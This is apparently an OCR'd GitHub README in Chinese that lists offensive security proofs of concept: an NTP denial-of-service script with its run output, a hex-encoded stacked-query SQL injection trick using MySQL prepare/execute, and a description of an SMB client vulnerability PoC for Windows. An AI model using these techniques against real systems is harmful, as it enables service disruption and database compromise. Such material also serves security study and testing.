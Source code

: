### ntpDenialService.py 一个使ntp拒绝服务的poc代码
```
构造一个特殊的数据包，ntpd没有默认开启trap服务，如果trap被开启，攻击者就能通过特别构造的数据包导致空指针引、ntpd崩溃，进而导致服务器拒绝服务。
测试：
监听本地udp 1111 端口
➜  ~ nc -l -u 0 1111

执行：
➜  Hacking git:(master) ✗ python ntpDenialService.py 127.0.0.1 1111
[-] Sending payload to 127.0.0.1:1111 ...
[+] Done!

➜  ~ nc -l -u 0 1111

6nonce, laddr=[]:Hrags=32, laddr=[]:WOP2, laddr=[]:WOP

接受到这个特殊的数据包，ntpd崩溃，形成拒绝服务
```

### 分享一个SQL注入的技巧
```
审计开源框架/cms的时候可能会遇到一些有意思的注入漏洞
当以pdo的方式连接mysql，也就是说可以多语句执行的时候
然后，参考如下：

python:
import binascii
s='select * from x limit 1;'

print binascii.b2a_hex(s)
# 获得16进制数据，73656c656374202a2066726f6d2078206c696d697420313b

mysql -uroot
set @a:=0x73656c656374202a2066726f6d2078206c696d697420313b;

prepare s from @a;

execute s;

mysql root@localhost:test> execute s;
+------+----------+-------+
|   id |   is_reg |   pid |
|------+----------+-------|
|    1 |        1 |     0 |
+------+----------+-------+
1 row in set
Time: 0.002s
```

### attackSmb/win10.py 一个SMB漏洞的Poc代码
```
此漏洞主要影响Windows Server 2012/2016、Win8/8.1以及Win10系统。
攻击者可以模拟成一个SMB服务器，诱使客户端发起SMB请求来触发漏洞。
攻击者也可以通过中间人方式“毒化”SMB回应，插入恶意的SMB回复实现拒绝服务或控制受害系统。
```
![](https://github.com/LockGit/Hacking/blob/master/attackSmb/attacksmb.png)
